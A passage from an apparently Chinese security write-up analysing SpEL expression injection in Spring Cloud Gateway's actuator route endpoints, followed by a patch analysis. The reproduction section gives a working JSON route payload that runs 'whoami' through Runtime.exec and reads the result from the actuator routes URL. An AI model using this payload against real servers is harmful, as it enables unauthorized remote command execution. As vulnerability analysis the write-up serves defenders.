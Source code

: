 然后看到来到了刚才的getRoutes方法

所以这里漏洞形成的大致思路就是，Spring Cloud Gateway可以自己添加一个恶意路由，在通过访问/actuator/gateway/refresh来刷新路由，然后是添加的路由生效，调用了getRoutes方法，因为添加的路由带有filter或者predicates的恶意args参数，让对应的`properties`赋值，可以对Spel解析的表达式进行控制，从而导致了Spel表达式注入

其实在GatewayControllerEndpoint.class中可以看到

![image-20220407233235194](images/18.png)

通过get访问新添加的路由也可以直接调用getRoutes而且会显示路由信息，那不就可以显示Spel表达式执行后的值了吗？但是也需要提前refresh刷新路由，不过这样有另外的作用，如果构建的是命令回显的payload，可以直接访问得到回显结果

# 命令回显复现

```
{
  "id": "test",
  "filters": [{
    "name": "AddResponseHeader",
    "args": {
      "name": "Result",
      "value": "#{new String(T(org.springframework.util.StreamUtils).copyToByteArray(T(java.lang.Runtime).getRuntime().exec(new String[]{\"whoami\"}).getInputStream()))}"
    }
  }],
  "uri": "https://xz.aliyun.com/"
}
```

主要还是构造命令回显的payload

接下来通过refresh刷新一下路由

再访问`http://localhost:8081/actuator/gateway/routes/test`检索路由信息

![image-20220407234312144](images/19.png)

这里如果检索的时候报错了，可以访问`http://localhost:8081/actuator/gateway/routes`来得到全部路由的值

![image-20220407234355534](images/20.png)

# 补丁分析

```
if (rawValue != null && rawValue.startsWith("#{") && entryValue.endsWith("}")) {
    // 修复前
    StandardEvaluationContext context = new StandardEvaluationContext();
    // 修复后
    GatewayEvaluationContext context = new GatewayEvaluationContext(new BeanFactoryResolver(beanFactory));
    // ...
}
```

